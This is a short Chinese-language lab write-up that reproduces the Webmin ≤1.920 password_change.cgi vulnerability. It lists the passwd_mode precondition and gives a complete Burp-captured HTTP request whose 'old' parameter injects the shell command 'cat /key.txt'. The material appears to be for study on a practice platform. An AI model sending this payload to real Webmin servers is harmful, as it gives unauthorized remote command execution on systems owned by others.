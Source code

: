 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/d01lL2RSbGEwZUNTeThVZ0xDdXl0Zz09bW96aGUmozhe

# 0x01 利用条件
需要开启密码重置功能，如下图  
![image](./0.png)  
查看webmin的配置文件/etc/webmin/miniserv.conf，可以发现passwd_mode的值已经从0变为了2

# 0x02 影响版本
Webmin<=1.920

# 0x03 漏洞复现
随便发起一个请求，burp拦截，修改为如下数据包  
```
POST /password_change.cgi HTTP/1.1
Host: 219.153.49.228:41489
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://219.153.49.228:41489/passwd/index.cgi?xnavigation=1
X-PJAX: true
X-PJAX-Container: [data-dcontainer]
X-PJAX-URL: passwd/edit_passwd.cgi?user=root
X-Requested-From: passwd
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Type: text/plain;charset=UTF-8
Content-Length: 60
Connection: close

user=yibudengtian&old=cat%20/key.txt&new1=123456&new2=123456
```

# 0x04 踩坑记录
无

# 参考链接
https://xz.aliyun.com/t/6040  
https://www.cnblogs.com/paperpen/p/11442532.html

